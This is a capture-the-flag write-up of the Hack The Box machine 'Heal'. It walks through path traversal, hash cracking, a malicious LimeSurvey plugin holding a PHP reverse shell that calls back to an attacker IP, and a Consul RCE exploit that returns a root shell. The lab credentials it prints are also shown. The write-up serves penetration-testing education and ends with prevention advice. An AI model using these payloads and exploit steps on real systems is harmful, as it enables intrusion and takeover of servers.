

Heal
Introduction
Heal is a Medium rated Linux machine on Hack The Box that blends modern web application enumeration with misconfigurations in popular DevOps tooling. The box pivots from uncovering hidden sub-domains in a React SPA to abusing a LimeSurvey plugin upload for initial RCE, then leverages leaked database credentials to move laterally before rounding things off with a HashiCorp Consul privilege escalation to root.
Reconnaissance
Initial Port Scan
b4go@kali:~/htb/heal$ nmap -sCV -p- --open -oA heal 10.10.11.46 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-16 07:16 EDT
Nmap scan report for heal.htb (10.10.11.46)
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_ 256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Heal
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.71 secondsLet's add heal.htb to our hosts.
b4go@kali:~/htb/heal$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 kali
10.10.11.46 heal.htb
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allroutersWeb Enumeration & Discovery
First site (heal.htb)
We land on the main portal and find a login panel.
I tried a few obvious creds, no dice, so I fired up BurpSuite and watched the traffic:
It is not sending a POST request but an OPTIONS, there seems to be a new subdomain api.heal.htb so I will add it to hosts file as well.
In api.heal.htb we are presented a new app
My initial thought is to start looking the version has any vulnerabilities but haven't found anything useful
Single-Page-App problem
The whole thing is a React SPA; every URL (/survey, /resume …) is routed client-side, so the server always hands back the same HTML.
Fuzzers like ffuf or dirsearch just see identical 200 responses and think they’re dead ends.
I switched to a crawler instead, let's use gospider:
b4go@kali:~/htb/heal/spider-results$ gospider -s http://heal.htb -t 10 -o spider-results
[url] - [code-200] - http://heal.htb
[javascript] - http://heal.htb/static/js/bundle.js
[javascript] - http://heal.htb/static/js/0.chunk.js
[javascript] - http://heal.htb/static/js/main.chunk.js
[subdomains] - api.heal.htb
[subdomains] - take-survey.heal.htb
[linkfinder] - [from: http://heal.htb/static/js/main.chunk.js] - ./node_modules/css-loader/dist/cjs.js?!./node_modules/postcss-loader/src/index.js?!./src/App.css
[linkfinder] - [from: http://heal.htb/static/js/main.chunk.js] - ./node_modules/css-loader/dist/runtime/api.js
[linkfinder] - [from: http://heal.htb/static/js/main.chunk.js] - ./node_modules/css-loader/dist/cjs.js?!./node_modules/postcss-loader/src/index.js?!./src/components/Error.css
...
After poking around for a while I managed to find this endpoint
b4go@kali:~/htb/heal/spider-results$ cat spider-results | grep linkfinder
...
[linkfinder] - [from: http://heal.htb/static/js/main.chunk.js] - /survey
...
New sub-domain (take-survey.heal.htb)
take the survey redirects us the another subdomain we didn't have earlier, I will add it to hosts file too
The redirect:
The new page shows LimeSurvey, I don't know the version of the app to look for vulnerabilities yet but the page shows Ralph’s email, hinting registration needs the proper domain.
I sign up again (this time with @heal.htb) and it works.

I will fill all the data and hit export as pdf, I had burpsuite running the whole time, so I will check the requests right after. when hitting export I automatically download a PDF
I noticed the parameter filename so I start trying but we have an OPTIONS request, let's change it to GET and start trying path traversal here:

Since it’s a Ruby app I start trying key files (database.yml, secrets.yml, …).
The dump throws some bcrypt hashes, let's try and crack them
b4go@kali:~/htb/heal$ hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt --show
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
Password 147258369 belongs to ralph, I immediately try to login via SSH and the main portal but without luck.
Directory fuzzing (take-survey.heal.htb)
Let's try fuzzing take-survey.heal.htb with dirsearch, there must be somewhere where we can use this password.
b4go@kali:~/htb/heal$ dirsearch -u http://take-survey.heal.htb/index.php/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x 404,503
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
from pkg_resources import DistributionNotFound, VersionConflict
_|. _ _ _ _ _ _|_ v0.4.3
(_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 4744
Output File: /home/b4go/htb/heal/reports/http_take-survey.heal.htb/_index.php__25-05-17_09-08-37.txt
Target: http://take-survey.heal.htb/
[09:08:37] Starting: index.php/
[09:08:47] 302 - 0B - /index.php/admin -> http://take-survey.heal.htb/index.php/admin/authentication/sa/login
[09:09:06] 200 - 74KB - /index.php/index.php
[09:09:07] 500 - 5KB - /index.php/installer
[09:09:17] 302 - 0B - /index.php/plugins -> http://take-survey.heal.htb/index.php/admin/pluginmanager/sa/index
Task Completed
The redirect reveals an admin panel — version 6.6.4.
And that’s our foothold. Let's keep going
Initial Foothold – LimeSurvey Auth-RCE
Version 6.6.4 of LimeSurvey is running, and there’s a handy authenticated RCE plugin exploit here: github.com/Y1LD1R1M-1337/Limesurvey-RCE.
Preparing the malicious plugin
The repo gives us two files: config.xml and php-rev.php.
We tweak them so the plugin matches our target version and calls back to us.
I add version 6.6.4 for compatibility
b4go@kali:~/htb/heal/Limesurvey-RCE$ cat config.xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
<metadata>
<name>reverse</name>
<type>plugin</type>
<creationDate>2020-03-20</creationDate>
<lastUpdate>2020-03-31</lastUpdate>
<author>Y1LD1R1M</author>
<authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
<supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
<version>5.0</version>
<license>GNU General Public License version 2 or later</license>
<description>
<![CDATA[Author : Y1LD1R1M]]></description>
</metadata>
<compatibility>
<version>3.0</version>
<version>4.0</version>
<version>5.0</version>
<version>6.6.4</version>
</compatibility>
<updaters disabled="disabled"></updaters>
</config>
for the php-rev.php we must change IP and PORT
b4go@kali:~/htb/heal/Limesurvey-RCE$ cat php-rev.php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.16'; // CHANGE THIS
$port = 1234; // CHANGE THIS
...
?>
Bundle it up:
b4go@kali:~/htb/heal/Limesurvey-RCE$ zip -r reverse.zip config.xml php-rev.php
adding: config.xml (deflated 56%)
adding: php-rev.php (deflated 61%)Upload & trigger
- Log in to the LimeSurvey admin panel.
- Upload
reverse.zipas a plugin and activate it. - Set up the listener:
b4go@kali:~/htb/heal$ nc -lvnp 1234- Hit the payload URL to pop the shell:
http://take-survey.heal.htb/upload/plugins/reverse/php-rev.php
b4go@kali:~/htb/heal/Limesurvey-RCE$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.46] 56304
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
13:33:15 up 1 day, 2:57, 0 users, load average: 0.01, 0.04, 0.02
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ Priv esc enum (www-data)
We’re in as www-data. so my first thought is that I should log in as another user and then escalate to root.
let's start enumerating the home directories..
www-data@heal:/etc$ ls /home
ralph ronI guess there will be some hard coded credentials somewhere I look for those files, starting by .php conf files::
www-data@heal:/etc$ find / -name *config.php 2>/dev/null
/var/www/limesurvey/vendor/tecnickcom/tcpdf/tcpdf_autoconfig.php
/var/www/limesurvey/vendor/tecnickcom/tcpdf/config/tcpdf_config.php
/var/www/limesurvey/vendor/kcfinder/conf/config.php
/var/www/limesurvey/vendor/yiisoft/yii/framework/messages/config.php
/var/www/limesurvey/vendor/yiisoft/yii/requirements/messages/config.php
/var/www/limesurvey/application/config/config.php
config.php is a good place to start.
www-data@heal:/etc$ cat /var/www/limesurvey/application/config/config.php
array(
'db' => array(
'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
'emulatePrepare' => true,
'username' => 'db_user',
'password' => 'AdmiDi0_pA$$w0rd',
'charset' => 'utf8',
'tablePrefix' => 'lime_',
),
'session' => array (
'sessionName'=>'LS-ZNIDJBOXUNKXWTIP',
// Uncomment the following lines if you need table-based sessions.
// Note: Table-based sessions are currently not supported on MSSQL server.
// 'class' => 'application.core.web.DbHttpSession',
// 'connectionID' => 'db',
// 'sessionTableName' => '{{sessions}}',
),
'urlManager' => array(
'urlFormat' => 'path',
'rules' => array(
// You can add your own rules here
),
'showScriptName' => true,
),
// If URLs generated while running on CLI are wrong, you need to set the baseUrl in the request component. For example:
//'request' => array(
// 'baseUrl' => '/limesurvey',
//),
),
// For security issue : it's better to set runtimePath out of web access
// Directory must be readable and writable by the webuser
// 'runtimePath'=>'/var/limesurvey/runtime/'
// Use the following config variable to set modified optional settings copied from config-defaults.php
'config'=>array(
// debug: Set this to 1 if you are looking for errors. If you still get no errors after enabling this
// then please check your error-logs - either in your hosting provider admin panel or in some /logs directory
// on your webspace.
// LimeSurvey developers: Set this to 2 to additionally display STRICT PHP error messages and get full access to standard templates
'debug'=>0,
'debugsql'=>0, // Set this to 1 to enanble sql logging, only active when debug = 2
// If URLs generated while running on CLI are wrong, you need to uncomment the following line and set your
// public URL (the URL facing survey participants). You will also need to set the request->baseUrl in the section above.
//'publicurl' => 'https://www.example.org/limesurvey',
// Update default LimeSurvey config here
)
);
/* End of file config.php */
/* Location: ./application/config/config.php */www-data@heal:/etc$ psql -h localhost -U db_user
Password for user db_user:
psql: error: connection to server at "localhost" (127.0.0.1), port 5432 failed: FATAL: database "db_user" does not exist
Database login fails, but those creds work for user enumeration: su ron drops us into Ron’s shell and gives us user.txt.
www-data@heal:/etc$ su ralph
Password:
su: Authentication failure
www-data@heal:/etc$ su ron
Password:
ron@heal:/etc$
we've got the first flag:
Privilege Escalation
sudo -l gives us nothing useful since we are not in sudoers file:
Port hunting
After enumerating for a while a decide to use ss -antlp and see open ports, maybe we can do portforwarding and get a shell as user ralph:.
ron@heal:/tmp$ ss -antlp
State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
LISTEN 0 1024 127.0.0.1:3001 0.0.0.0:*
LISTEN 0 511 127.0.0.1:3000 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:8301 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:8300 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:8302 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:8500 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:8503 0.0.0.0:*
LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:8600 0.0.0.0:*
LISTEN 0 511 0.0.0.0:80 0.0.0.0:*
LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
LISTEN 0 244 127.0.0.1:5432 0.0.0.0:*
LISTEN 0 128 [::]:22 [::]:* Port 8500 (Consul) looks interesting, let's.
Forward it to our box and log back in as ron:
b4go@kali:/opt$ ssh -L 8500:127.0.0.1:8500 ron@heal.htb
The authenticity of host 'heal.htb (10.10.11.46)' can't be established.
ED25519 key fingerprint is SHA256:/VqroO/Kmxq00rboKFY9TylfAkNdJOiWIOBhnIA4VMs.
This host key is known by the following other names/addresses:
~/.ssh/known_hosts:8: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'heal.htb' (ED25519) to the list of known hosts.
ron@heal.htb's password:
Permission denied, please try again.
ron@heal.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/pro
System information as of Sat May 17 03:26:01 PM UTC 2025
System load: 0.01
Usage of /: 83.0% of 7.71GB
Memory usage: 30%
Swap usage: 0%
Processes: 255
Users logged in: 0
IPv4 address for eth0: 10.10.11.46
IPv6 address for eth0: dead:beef::250:56ff:fe94:99f7
Expanded Security Maintenance for Applications is not enabled.
29 updates can be applied immediately.
18 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt updateBrowsing http://127.0.0.1:8500 through the tunnel shows Consul v1.19.2.
Finding an exploit
I will check whether there are any exploits available:
b4go@kali:~/htb/heal$ searchsploit consul
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Hashicorp Consul - Remote Command Execution via Rexec (Metasploit) | linux/remote/46073.rb
Hashicorp Consul - Remote Command Execution via Services API (Metasploit) | linux/remote/46074.rb
Hashicorp Consul v1.0 - Remote Command Execution (RCE) | multiple/remote/51117.txt
Hassan Consulting Shopping Cart 1.18 - Directory Traversal | cgi/remote/20281.txt
Hassan Consulting Shopping Cart 1.23 - Arbitrary Command Execution | cgi/remote/21104.pl
PHPLeague 0.81 - '/consult/miniseul.php?cheminmini' Remote File Inclusion | php/webapps/28864.txt
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Resultsthere is a RCE for v1.0, I will give it a try:
b4go@kali:~/htb/heal$ searchsploit -m multiple/remote/51117.txt
Exploit: Hashicorp Consul v1.0 - Remote Command Execution (RCE)
URL: https://www.exploit-db.com/exploits/51117
Path: /usr/share/exploitdb/exploits/multiple/remote/51117.txt
Codes: N/A
Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/b4go/htb/heal/51117.txt
b4go@kali:~/htb/heal$ python exploit.py
[-] Usage: python3 exploit.py <rhost> <rport> <lhost> <lport> <acl_token>b4go@kali:~/htb/heal$ python exploit.py localhost 8500 10.10.14.16 443 dummy
[+] Request sent successfully, check your listenerThe reverse shell connects back as root so we can finally get the root flag:
Conclusion
Heal was a chain-reaction of small misses: a noisy SPA route, a lazy path-traversal check, an “anyone can upload” LimeSurvey plugin, reused DB creds, and Consul running wide-open. Nothing exotic, just known bugs waiting to be chained until root.
Prevention:
- Disable or at least sign and approve—plugin uploads on production LimeSurvey.
- Hand every service its own password, rotate them through a secrets vault.
- Run Consul (and other ops tools) with ACLs on and bound to a management-only interface.
- Reject ../ and similar tricks server-side; never trust a client-supplied filename.